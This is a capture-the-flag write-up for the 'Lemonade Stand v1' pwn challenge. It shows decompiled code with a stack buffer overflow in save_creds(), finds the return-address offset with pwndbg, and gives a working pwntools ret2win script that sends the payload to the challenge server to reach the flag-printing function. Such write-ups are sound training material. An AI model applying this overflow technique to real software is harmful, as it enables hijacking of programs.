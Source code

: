 # Lemonade Stand v1 

This challenge is an basic ret2win attack.

## Basic file checks

We see that the RELRO is full enabled so can't write anything in the GOT table to perform a "GOT overwrite" attack. \
The NX is also enabled, so that means we can't stored input or data cannot be executed as code to perform a shellcode attack.
![Alt Text](img/checksec.png)

## View the Source Code and find the vulnerability

We used Ghidra to disassemble the binary.\
The first thing that we want to do is to go to Functions section and select the main() to see\
what the binary is actually doing and what funtions are called.
```c
void main(void)

{
  long lVar1;
  
  setup();
  puts("\x1b[1;33m");
  cls();
  do {
    while( true ) {
      while (lVar1 = menu(), lVar1 == 1) {
        buy_normal();
      }
      if (lVar1 == 2) break;
      error("We don\'t sell grapes!");
    }
    buy_large();
  } while( true );
}
```


We saw that the main is calling two funcrions buy_normal()" and buy_large().\
We navigate to them and we saw that both of them they calling a save_creds() func.
```c
void buy_large(void)

{
  if (COINS < 6) {
    error("You don\'t have enough coins!");
    save_creds();
  }
  else {
    printf("\n%s[+] Enjoy your large lemonade!\n%s",&DAT_0040101e,&DAT_00400c88);
    COINS = COINS - 5;
  }
  return;
}
```

This is where the interesting thing starts. \
We see that we have a buffer overflow in the local_48 variable cause the size of it is 64 bytes and read can take 74 bytes

```assembly 
        00400ac7 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
```

```c

void save_creds(void)

{
  long lVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  puts(
      "\n\nI can give you a free lemonade but I need your information for next time so you can pay m e back!\n"
      );
  printf("1. Yes\n2. No thanks\n\n>> ");
  lVar1 = read_num();
  if (lVar1 == 1) {
    printf("\nPlease tell me your name: ");
    read(0,&local_28,30);
    printf("\nPlease tell me your surname: ");
    read(0,&local_48,74);
    puts("Thanks a lot! Here is your lemonade!\n");
  }
  return;
}
```
We also found a function that is never been called and it will print the flag if somehow we achieve it (grapes()).
That's our goal.

```c

void grapes(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

## Exploit

First we want to find the offset.\
We will use pwndbg for this, to create a pattern known as De Bruijn Sequences to fill the padding for the buffer.
The pwntools calculate the entire 8 digits and found the offset to be 64, but we only care for the first 4 bytes so it will be 64 + 4 * 2 = 72 bytes

```assembly
>> 1                                                                                         
                                                                                             
Please tell me your name: leo                                                                
                                                                                             
Please tell me your surname: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                         
Thanks a lot! Here is your lemonade!                                                         
                                                                                             
                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                         
0x000000000040616a in ?? ()                                                                  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*RAX  0x26
 RBX  0x0
*RCX  0x7ffff7910104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7bed8c0 ◂— 0x0
*RDI  0x1
*RSI  0x7ffff7bec7e3 (_IO_2_1_stdout_+131) ◂— 0xbed8c0000000000a /* '\n' */
*R8   0x25
*R9   0x7ffff796eb90 ◂— mov r10, qword ptr [rsi - 0x1e]
*R10  0x20657361656c500a ('\nPlease ')
*R11  0x246
*R12  0x400780 (_start) ◂— xor ebp, ebp
*R13  0x7fffffffde50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
*RIP  0x40616a
────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
Invalid address 0x40616a
──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ rsp 0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
01:0008│     0x7fffffffdd68 —▸ 0x400bee (main+72) ◂— jmp 0x400bfd
02:0010│     0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
03:0018│     0x7fffffffdd78 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
04:0020│     0x7fffffffdd80 ◂— 0x2000000000
05:0028│     0x7fffffffdd88 —▸ 0x7fffffffde58 —▸ 0x7fffffffe1c0 ◂— '/home/vein/htb/hacktheboo_practise/pwn_lemonade_stand_v1/lemonade_stand_v1'
06:0030│     0x7fffffffdd90 ◂— 0x100000000
07:0038│     0x7fffffffdd98 —▸ 0x400ba6 (main) ◂— push rbp
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0         0x40616a
   1   0x7fffffffdd70
   2         0x400bee main+72
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> aaaaaakaaaaaaalaaaaaaamaaa
Undefined command: "aaaaaakaaaaaaalaaaaaaamaaa".  Try "help".
pwndbg> cyclic -l iaaaaaaa
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
```

Then we wrote a simple python script with pwntools to return to grapes

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./lemonade_stand_v1', checksec = False)
# p = process(elf.path)
p = remote('94.237.48.248', 39040)
# context.log_level = 'debug'

padding = 72 * b'a' 
# pop_rdi = 0x400c63

payload = flat(
          padding,
          elf.symbols.grapes
              )

p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'1')
p.recvuntil(':')
p.sendline('leo')
p.recvuntil(':')
p.send(payload)
success(p.recvall())
```

And we successfully did it!

![Alt Text](img/flag.png)
